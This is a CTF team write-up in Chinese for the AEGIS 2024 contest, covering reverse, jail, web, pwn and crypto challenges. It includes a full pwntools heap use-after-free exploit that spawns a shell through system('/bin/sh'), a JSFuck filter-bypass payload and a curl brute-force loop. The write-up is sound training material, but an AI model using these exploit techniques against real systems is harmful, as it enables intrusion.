







# 神盾盃 2024
###### tags: `CTF` `AEGIS`

Player: 
- ywc
- MuMu
- Pierre
- AxelHowe
- l3obo
- frostbean

---
- [ctfd](https://aegis2024.ctfd.io/)
- [discord](https://discord.gg/7vZKGDhc)
- flag format: `AEGIS{}`
- Teamname: `i'm down QQ`
- Rank: 3/51
- Solve: 10/21


## Reverse
### arm_E

從檔案 p,q 通靈出大概是 RSA，但是公鑰 e 未知

fibonacci (從 0 開始算)
```asm
 854:	d10083ff 	sub	sp, sp, #0x20
 858:	b9000fe0 	str	w0, [sp, #12]
 85c:	b90013ff 	str	wzr, [sp, #16]
 860:	52800020 	mov	w0, #0x1                   	// #1
 864:	b90017e0 	str	w0, [sp, #20]
 868:	b9400fe0 	ldr	w0, [sp, #12]
 86c:	7100001f 	cmp	w0, #0x0
 870:	54000061 	b.ne	87c <__gmon_start__@plt+0x14c>  // b.any
 874:	b94013e0 	ldr	w0, [sp, #16]
 878:	14000019 	b	8dc <__gmon_start__@plt+0x1ac>
 87c:	b9400fe0 	ldr	w0, [sp, #12]
 880:	7100041f 	cmp	w0, #0x1
 884:	54000061 	b.ne	890 <__gmon_start__@plt+0x160>  // b.any
 888:	b94017e0 	ldr	w0, [sp, #20]
 88c:	14000014 	b	8dc <__gmon_start__@plt+0x1ac>
 890:	52800040 	mov	w0, #0x2                   	// #2
 894:	b9001fe0 	str	w0, [sp, #28]
 898:	1400000c 	b	8c8 <__gmon_start__@plt+0x198>
 89c:	b94013e1 	ldr	w1, [sp, #16]
 8a0:	b94017e0 	ldr	w0, [sp, #20]
 8a4:	0b000020 	add	w0, w1, w0
 8a8:	b9001be0 	str	w0, [sp, #24]
 8ac:	b94017e0 	ldr	w0, [sp, #20]
 8b0:	b90013e0 	str	w0, [sp, #16]
 8b4:	b9401be0 	ldr	w0, [sp, #24]
 8b8:	b90017e0 	str	w0, [sp, #20]
 8bc:	b9401fe0 	ldr	w0, [sp, #28]
 8c0:	11000400 	add	w0, w0, #0x1
 8c4:	b9001fe0 	str	w0, [sp, #28]
 8c8:	b9401fe1 	ldr	w1, [sp, #28]
 8cc:	b9400fe0 	ldr	w0, [sp, #12]
 8d0:	6b00003f 	cmp	w1, w0
 8d4:	54fffe4d 	b.le	89c <__gmon_start__@plt+0x16c>
 8d8:	b9401be0 	ldr	w0, [sp, #24]
 8dc:	910083ff 	add	sp, sp, #0x20
 8e0:	d65f03c0 	ret
```


呼叫 fibonacci(0x20) 並加上 0x84f3a
```asm
 8e4:	a9bf7bfd 	stp	x29, x30, [sp, #-16]!
 8e8:	910003fd 	mov	x29, sp
 8ec:	52800400 	mov	w0, #0x20                  	// #32
 8f0:	97ffffd9 	bl	854 <__gmon_start__@plt+0x124>
 8f4:	2a0003e1 	mov	w1, w0
 8f8:	5289e740 	mov	w0, #0x4f3a                	// #20282
 8fc:	72a00100 	movk	w0, #0x8, lsl #16
 900:	0b000020 	add	w0, w1, w0
 904:	a8c17bfd 	ldp	x29, x30, [sp], #16
 908:	d65f03c0 	ret
```

推測 e 應該是 fib(0x20) + 0x84f3a，剩下就 RSA 解密

### Calculator
`./Calculator.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows`

Skip to important section



Easy code with easy solution





  
First blood of the contest

flag: `AEGIS{N0_5WE4T}`

## Misc
### Eazy Jail

stage 1 使用 python 的 `int(input)`，要組合出在指定的輸入長度下執行出數字 2 出來，每個 level 的長度限制為 `levels = [1, 3, 4, 6, 7, 8, 10, 11]`

以下是各 level 的解法

stage1
```
2
"2"
f"2"
""f"2"
f""f"2"
f"""2"""
""f"""2"""
f""""""f"2"
```

stage 2 是 js，要求在 `Number` 的情況下解析出 1024，而使用以下 safeEval 的情況下解析出 532

`safeEval`
```javascript
function safeEval(input) {
    const allowedChars = /^[0-9+\-*/.\s]+$/;

    if (!allowedChars.test(input)) {
        throw new Error('Invalid characters detected!');
    }

    return new Function(`return (${input})`)();
}
```

解法是輸入 `001024`，在 Number 解析下是 10 進位的 1024，而 safeEval 解析出 8 進位的 532

`AEGIS{345y_j41l_f0r_b361nn3r_n07_w473r_qu35710n_QQ}`

### Just paly a game
前三次輸入固定為
```
abcdefgh
ijklmnop
qrstuvwx
```

想辦法讓 8B 都確認在 A-X 裡頭，沒有就重來，有了後就可以確認 XY 不在正確答案  
這時再從前三次輸入中最多正確答案的取六個搭配 XY 找出所有的 B 再慢慢試出正確答案 剩下就加上一點運氣 QQ  
先刷首抽把 ABCDEFGH 弄成 0A0B 也是一樣意思，~~但好難刷~~

Solve script when known sets of answer

```python
#!/usr/bin/python3.10 -W ignore

from itertools import permutations

perms = []

def check(perms:list, result: str, guess:str):
    a, b = result.split("A")[0], result.split("A")[1].split("B")[0]
    a, b = int(a), int(b)

    cur_a, cur_b = 0, 0
    for i in range(8):
        if perms[i] == guess[i]:
            cur_a += 1
            perms[i] = "0"
    for i in range(8):
        if perms[i] != "0" and perms[i] in guess:
            cur_b += 1
            perms[i] = "0"

    #print(cur_a, cur_b, a, b, guess)
    if cur_a + cur_b != 8:
        print("not equal", cur_a, cur_b, guess)
        return False
    elif cur_a == a and cur_b == b:
        return True

if __name__ == "__main__":
    sets = input("Enter sets of 8 characters: ")
    perms = list(permutations(list(sets), 8))
    print(len(perms))
    left = int(input("Left to test: "))

    while left > 0:
        maybe_right = []
        wrong = []
        print(len(perms))
        guess = input("Enter guess to server: ")
        result = input("Enter result from server: ")
        for j in range(len(perms)):
            if check(list(perms[j]), result, guess):
                maybe_right.append("".join(perms[j]))
            else:
                wrong.append(j)
        left -= 1

        # clean wrong
        for i in wrong[::-1]:
            perms.pop(i)

        if (input("Show guess ") == "y"):
            print("Maybe ", maybe_right)
        else:
            print("Maybe ", len(maybe_right))
```

## Web
### JSFBox

後端擋含大小寫、底線、等號，且有使用的字元種類數量限制，推測可用 [JSFuck](https://jsfuck.com/) 解  
以下是 payload 以及 JSFuck 產出的結果  

payload: `res.send(fa)`
jsf: `(!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(+(+!+[]+[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+[!+[]+!+[]]+[+[]])+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+([][[]]+[])[+!+[]]+([][[]]+[])[!+[]+!+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+(![]+[])[+[]]+(![]+[])[+!+[]]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]]`
:::

`AEGIS{1_4m_d0wn_f0r_qu173_7h3_j5fun_qu357_bu7_fuck_j5fuck!}`

## Pwn
### basicPwn

- AEGIS{Sudan_IV_is_c24H20N4o_s0o0_TerribLe!!!!}

note 題目，可以 create 可以指定 malloc 大小，另外在 create 過程中，還會 malloc 一個 0x10 的 chunk 用來存放 info() 的 function pointer，以及指向 note 的 pointer，這邊暫時把它稱為 note header



view note 的過程是會 call info()，且把 note 內容當參數傳給 info()，但這裡的 call info() 實際上是 call 寫在剛剛 note header 上面的 pointer，所以如果可以修改到上面的 pointer，就能讓他呼叫其他 function

因此可以想到說，如果有辦法達成任意寫，就可以把 system() 改寫掉原本的 info()，且在 note 輸入 `/bin/sh` 去呼叫 view 就可以拿到 shell 權限了

用 IDA 觀察可以找到 UAF 的漏洞，把 note free 掉之後，view note 一樣會去 call note header 上面的 pointer，也不會清空 note 裡面的字串

因此要 leak libc 的辦法，可以 create note，把他 free 掉製造出一個 unsorted bin，他的 fd 跟 bk 會是指向 libc 某個位址的 pointer (跟 libc base address 的 offset 可以直接用 gdb 觀察)，但我一開始 malloc 0x100 大小的 chunk，free 掉之後發現會變成 tcache，後來發現改成 malloc 一個很大的數字(64100)，就不會變成 tcache，而是直接變成 unsorted bin

第一個 note 被 free 掉之後，我再 create 一個大小為 0 的 note，但 malloc(0) 還是會給一個最小的 chunk(0x10)，然後因為大小為 0，read 不會用到，所以就不會蓋掉新分配好的 chunk 內容，這時 chunk 裡面剛好就會是 fd 跟 bk，(從剛剛被 free 掉的大 chunk 切出來的)，這時 view note 就可以得到 libc 了

再來是想辦法，我想要製造一個 fastbin list 剛好讓 create note 的時候，可以拿回 note header，

free note 的時候是先 free note 再 free note header

create note 是先 create note header(0x10) 再 create note(你輸入的數字)

要拿回 note header 的方法是，先 create 任意大小的 note1，再 create 0x10 的 note2，再 free note1、note2，這時 fastbin 會長這樣

==fastbin 0x10：note1 header → note2 → note2 header==

接著再 create 0x10 以外的 note3，他會拿走 fastbin 最尾巴的 note2 header

==fastbin 0x10：note1 header → note2==

這時只要再 create 0x10 的 note4，note4 header 會拿到 note2，note4 會拿到 note1 header，這時就可以在 note4 寫入 system() 跟 /bin/sh 的 address，然後 view note1 就會執行 `system('/bin/sh')`

exp.py
```python
from pwn import *
context.arch = 'amd64'

libc = ELF('./libc.so.6')
p = process('./basicPWN')
# p = remote('0.cloud.chals.io', 30903)


def create(size, data):
    p.recvuntil(b'option : ')
    p.sendline(b'1')
    p.recvuntil(b'time ? ')
    p.sendline(str(size).encode())
    p.recvuntil(b'note : ')
    p.send(data)

def view(idx):
    p.recvuntil(b'option : ')
    p.sendline(b'2')
    p.recvuntil(b'order ID.')
    p.sendline(str(idx).encode())
    return p.recvline()

def delete(idx):
    p.recvuntil(b'option : ')
    p.sendline(b'3')
    p.recvuntil(b'order ID.')
    p.sendline(str(idx).encode())
    success('delete')
    p.recvline()
    success(p.recvline())


create(64100, b'A'*0x100)
delete(0)


create(0, "")
view(1)

p.recvuntil(b'Content : ')
base = u64(p.recv(6).ljust(8, b'\x00')) - 0x21b450
bin_sh_offset = libc.search(b'/bin/sh').__next__()
info(f'libc_base: {hex(base)}')
info(f'system: {hex(base + libc.sym["system"])}')
info(f'bin_sh: {hex(base + bin_sh_offset)}')

create(0x40, b'A'*0x40)
create(0x10, b'A'*0x10)
delete(2)
delete(3)
create(0x40, b'A'*0x40)

create(0x10, p64(base + libc.sym['system'])+ p64(base + bin_sh_offset))
view(2)

p.interactive()
```

## Crypto
### Choose E

Challenge source
```python
from Crypto.Util.number import *
from SECRET import flag

n = 1
for _ in range(4):
    n *= getPrime(1024)

m = bytes_to_long(flag)

try:
    for i in range(4):
        print(f'You have {4-i} change(s).')
        e = int(input(f'Give me your e> '))
        if (e.bit_length() < 20):
            print(f'Your e is too small!')
            exit()
        print(f'{pow(m, e, n)}')
except:
    print(f'Something is error!')
    exit()
```

Choose 4 different e to assemble `n` and `m`  
We can use any numbers to recover values, use the closest number for sample.  

$\begin{split} \\
x_0 &= 524288 \\
y_0 &= -x_0  \\
x_1 &= x_0+1 \\
y_1 &= -(x_0+1) \\ 
\\
m^{x_0} * m^{y_0} &\equiv m^{x_1} * m^{y_1} \equiv m^0 \\
&\equiv  k_0*n+1 \equiv k_1 * n + 1\ (mod\ n) \\
\rightarrow \ n &= GCD(m^{(x_0*y_0)} - 1, m^{(x_1*y_1)} - 1) \\
m &\equiv m^{x_1} * m^{y_0} \equiv m^{(x+1)-x}\ (mod\ n)
\end{split}$

```python
#!/usr/bin/python3.10 -W ignore

from Crypto.Util.number import *

x0 = 71837109665403344058762602194834321038544676581392682230407504752194953498956632855333690920694010810630964373149126370488636531185236002399869423572491626181793170186453110405837303163668156519745496299399509893949971247278649156779163068479163075259183432804848098049705047709738971041478132877278452324518607841717978951043491185103103046286116691745483492738545695179217033834628080893326913686926523539262648258690154323002431831484242791805906289136896476572058480350204016864379417195384473005653076865211173532252778243401764625812453856082782043766727892131370859799220426545060939062905626200685480638882194756038196925886983701995113149225146083425471191097154390534431706959512108566296864277587029945354172675142370403300806046185240262888733672652636082711435142918098381072874690329068836353194328372494427293749903823886734021203869517555056622935192978996787392358622754137407199699950383700677098301598221500809389223711848103175853073431439777960740955295822376753556282632511555601877219385427019277021382104495750868716732837470970775318413174066039844072765952519150803301888137680969817799628298114602480263111416557204044477245557808423666852632169594606936905732174432828412894342527754521507885277676047474
x1 = 44943475039001179051643922588648983916966524527840455627151210338696145528973108505847197959317656537803591696696217348555077103806006690613962052679970685758724281098575561902609680283937361642504299579110329537909758701459081334501538072931151928966026296640858590854857652653998619010874574078224835341968249545829752914660318253674240290491311205087920933617869159645693151710438504146384724535698459397256429342597020509685988576138619276447067541091400169015857224134144752675735252255099053956338836128870665495786115414783762878826819551453209483190427850438339487255216170068432478448149709512323341182410233440104867431699364538198043768247396379423462539752169410763251519045154224042899717091019905921340384823543453435549410738081032527833938957951916922481555256780265968633331275448558619431913831146491209964271965754512743140527158217538410122031441698107460765418964750205359443609932259357066995981234962545051573459408496720928967239307277416704539454260262630147494872211042157116463763370992459479703401502454848781891244348348862782484083955262006530617859195341539583566854973755810977364981606656134516970745150775182009852690287694582533769824175631754004790563095282909343411947489909800089720400392969754
y0 = 108230648245307960319179162051877778945224817162852477659406443520111141734148315888308882723521889961487848914315992431901030928972396847854376784375484020825509591233473619403306910153419687517399851465173904974245347903063686775773306366521376475688411124462138673474946103165829972504382932384099683141302732532688976223991598001064729426205512416401574187282919951749489032966866414020831137734952563769676446898307570554504641581828784313886600173518284932324670536552330536790548730209285244628123181749013971624849502213990144146801286663291252514075948162493187327353093292101375695844346220517087056136356984082256025861470992501092880464721407897789102270970119932083152227331655817119088255127594607274601888262580254059170822856187522444619887802273465373071035759742178689450269188981939678668579902126034133542020622204010354091955600080816049056416854215152336345509691390050084224916667588028831368714201009069300542236412530339061574772661329683564027702810703977072933058881777646793506757490087640329313267162748200737724330522047180933423117968469379990114026332860741309305497233605167132032642452735506261903161818991751875880745980827469054837052066023854673315002599323339941593970176035808333282868124827511
y1 = 6420192000740673143518090815234106725945048667227935108344301898662012871500059444784835208919201766400279076281675608678575964309602275037587315728345835221600715806508259520952040845374426155833898248342958467492922386844754936242146710420971894829083335672367460415518632340323903484293219104218006791920931229547543562125753533926166779010584383223571214672879795567952892660189217627366599090720548940622966912793310418859712096020328836936580692939292158378949603886255649053338937998414322188289518330324157839192337663752122457125758738860093660493431405963905465934257581702834707866236845157532933693124994585180766149886187812619289856656250151992174288762583673825205152019299102475233421992041745281733505958591166292766586101211957869352409170817519855596757110256238646822792871739517170243963109253111268966770210911001980797048998367891579555758397751561550267138827706239031301242024259921965648059655710737556877563304860046375072464665068392695485355569543661725558013917243287082500776757757914197038486292056736728115786800192461282887587005920074906340121570853259021102342103679640180428672048043769876386297718246604971887814531686910028388635642747149068123754750861120006533189347066863040956416146332164

n = GCD(x0 * y0 - 1, x1 * y1 - 1)
m = long_to_bytes(x1 * y0 % n)

print(m)
```

flag: `AEGIS{w00p5!7h3_n36471v3_3_15_d4n63r0u5_!_fc7c83}`


### miku

Challenge source
```python
from Crypto.Util.number import *
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import os

with open('flag.png', 'rb') as f:
    miku = 1
    for _ in range(39):
        miku *= getPrime(39)

    negi = 0x10001
    kotoba = os.urandom(32)

    roller = AES.new(kotoba, AES.MODE_CBC)
    with open('flag.png.enc', 'w') as g:
        g.write(roller.iv.hex())
        g.write('\n')
        g.write(roller.encrypt(pad(f.read(), AES.block_size)).hex())

    with open('hint.txt', 'w') as g:
        g.write(f'miku = {miku}\n')
        g.write(f'negi = {negi:x}\n')
        g.write(f'kotoba = {pow(bytes_to_long(kotoba), negi, miku)}')
```

getPrime(39) will generate small prime that we can easily factorize

$$\begin{align*} \\
n &= \prod^{n}_{i=0}p_i \\
\phi(n) &= \prod^{n}_{i=0}p_i-1 \\
\end{align*}
$$

Solve script
```python
#!/usr/bin/python3.10 -W ignore

from Crypto.Util.number import *
from functools import reduce
from Crypto.Cipher import AES

exec(open("./hint.txt", "r").read())
a = [276228829519, 287059084673, 296419253981, 299226234379, 300751505207, 303630994577, 315688377073, 327558967097, 331013571869, 357725216353, 362725429477, 370236569581, 387671762011, 411810362771, 419362349207, 423484160027, 427458048239, 440026736561, 440755673803, 440781277399, 456240490439, 457684593253, 475720954117, 492683642527, 502195386353, 502575161227, 506007103321, 506414441941, 511088739803, 511616425183, 513345822919, 517861162349, 522907934027, 523093661287, 534379713871, 534849004177, 536851476493, 539050373621, 542146765313]

phi = reduce(lambda x, y: x*y, [p-1 for p in a])
e = 0x10001
d = inverse(e, phi)

key = long_to_bytes(pow(kotoba, d, miku))
assert len(key) == 32

iv, enc = open("./flag.png.enc", "r").read().split("\n")

aes = AES.new(key, AES.MODE_CBC, bytes.fromhex(iv))
with open("./flag.png", "wb") as f:
    f.write(aes.decrypt(bytes.fromhex(enc)))
```

flag: `AEGIS{4_b3l473d_h4ppy_b1r7hd4y_70_h475un3_m1ku}`

### Secret in Frame 1

Solved by bruteforcing, don't know how to solve ¯\\\_(ツ)_/¯

```bash
for i in {7680..0}; do
    echo $i;
    echo $i >> secret1;
    curl -m 1 -d "idx=$i&auto=on" https://aegis2024-crypto-secretinframe1.chals.io/ -H "@./header" 2>/dev/null|grep "text-light " >> secret1; 
done
```

Then you will get lots flag part to assemble  
BTW this scripts could be used at Frame1~3

```
1_4m_ 0n_7h 3_r00 f70p_ 4nd_7 h3_w1 nd_15 _r34l ly_57 r0n6_

1_4m_ 571ll _l00k 1n6_f 0r_7h 3_m05 7_c0m f0r74 bl3_p 4rk_1

# 不確定怎麼組
why_d 035_7 h3_b3 4u71f ul_p4 57_f4 d3_4w 4y_72
b62bc
0028d
```

`AEGIS{why_d035_7h3_b34u71ful_p457_f4d3_4w4y_72b62bc0028d}`

### Secret in Frame 2
Same as frame 1

```
72 4k4n3        akane
163 4r_0f       ar_of
166 _3n7r       _entr
380 4n4_5       ana_s
462 _d0cc       _docc
549 m1n6_       ming_
1107 80b17      80b17
1634 y4770      yatto
1882 jy4n4      jyana
2211 15_c0      is_co
2491 13v3_      ieve_
2734 _k0r3      _kore
2950 1_b3l      i_bel
5373 ruby_      ruby_
5266 500n_      soon_
4894 abef0      abef0
4450 cdb24      cdb24
4445 41k0u      aikou
4257 h173r      hiter
4256 7h3_w      the_w
4119 _9ed5      _9ed5
4043 1_415      i_ais
4021 4nc3_      ance_
3759 u_03d      u_oed
3538 _1374      _ieta
3202 h1_4r      hi_ar
2718 _w4_z      _wa_z
1984 1m4_k      ima_k
1456 _u50_      _uso_
1295 37741      ettai
```

> [name=MuMu]
```
7h3_w 4r_0f _k0r3 4nc3_

1_b3l 13v3_ 7h3_w 4r_0f _k0r3 4nc3_ 15_c0 m1n6_ 500n_

_3n7r 4nc3_
```

> [name=ywc]
```
2950 2491
1_b3l 13v3_
i_bel ieve_

2211 549 5266
15_c0 m1n6_ 500n_
is_co ming_ soon_

166 4021
_3n7r 4nc3_
_entr ance_
```

```
日文？
akane – 這是日文名字「茜」的拼音。
jyana – 這可能是「じゃな」的拼音，常見於日語口語中，意為「那麼」或「所以」。
kore – 這是日文「これ」的拼音，意為「這個」。
aikou – 這可能是「愛子」或「愛こう」的拼音。
saikou - 賽高

# _uso_ 謊話
# jyana 掰掰
# _wa_zettai 我絕對
# i_aishiteru_oed  我愛你 
```

flag: `AEGIS{y4770_1374_k0r3_w4_z37741_u50_jy4n41_415h173ru_03d}`
```
AEGIS{yatto_ieta_kore_wa_zettai_uso_jyana_i_aishiter_uoed}

やっと言えた
yatto ieta
終於說得出口了

これは絶対嘘じゃない
kore wa zettai uso janai
這絕對不是謊言唷

愛してる
ai shiteru
我愛你
```

### Secret in Frame 3

```
6420 v_29d    v_29d
6226 710n_    tion_
6117 0w_7h    ow_th
5996 3x3cu    execu
5963 _7h3_    _the_
5792 m_cr4    m_cra
5676 b37eb    b37eb
5619 710n_    tion_
4947 3x3cu    execu
4829 h1dd3    hidde
4628 184f2    184f2
4481 3cu73    ecute
4468 7h3_m    the_m
4216 0u_kn    ou_kn
4212 710n_    tion_
3907 3r35_    eres_
3355 ck3r_    cker_
3269 n_1n_    n_in_
3239 c0d3_    code_
3085 d1d_y    did_y
2011 83769    83769
1681 710n_    tion_
1133 j4v4_    java_
1095 475_y    ats_y
813 3x3cu     execu
643 5769b     5769b
287 r4nd0     rando
265 3x3cu     execu
236 0u_3x     ou_ex
181 c0n6r     congr
```

```hash!
184f2
b37eb
83769
5769b
```

```
c0n6r 475_y 0u_kn 0w_7h 3r35_ r4nd0 m_cr4 ck3r_

h1dd3 n_1n_ 7h3_m 

j4v4_c0d3_

3x3cu710n_3x3cu710n_3x3cu710n_3x3cu710n_

r4nd0m_cr4ck3r_h1dd3n_1n_7h3_mv_29d

```



> [name=ywc]
```
4829 3269
h1dd3 n_1n_
hidde n_in_

287 5792 3355
r4nd0 m_cr4 ck3r_
rando m_cra cker_

3085 4216 6117 3907
d1d_y 0u_kn 0w_7h 3r35_
did_y ou_kn ow_th eres_

181 1095 236 4481
c0n6r 475_y 0u_3x 3cu73
congr ats_y ou_ex ecute
```

tried flag:
`AEGIS{d1d_y0u_kn0w_7h3r35_j4v4_c0d3_h1dd3n_1n_7h3_mv_29d}`
`AEGIS{d1d_y0u_3x3cu73_7h3_j4v4_c0d3_h1dd3n_1n_7h3_mv_29d}`
`AEGIS{c0n6r475_y0u_3x3cu73_7h3_c0d3_h1dd3n_1n_7h3_mv_29d}`
`AEGIS{c0n6r475_y0u_kn0w_7h3r35_c0d3_h1dd3n_1n_7h3_mv_29d}`
`AEGIS{j4v4_c0d3_h1dd3n_1n_7h3_mv_29 <所有的 hash 組合> }`
`AEGIS{j4v4_r4nd0m_cr4ck3r_h1dd3n_1n_7h3_mv_29d <所有的 hash 組合> }`


```python!
['AEGIS{d1d_y0u_3x3cu73_7h3_j4v4_h1dd3n_1n_7h3_mv_29d184f2}',
 'AEGIS{d1d_y0u_3x3cu73_7h3_j4v4_h1dd3n_1n_7h3_mv_29db37eb}',
 'AEGIS{d1d_y0u_3x3cu73_7h3_j4v4_h1dd3n_1n_7h3_mv_29d83769}',
 'AEGIS{d1d_y0u_3x3cu73_7h3_j4v4_h1dd3n_1n_7h3_mv_29d5769b}']
```

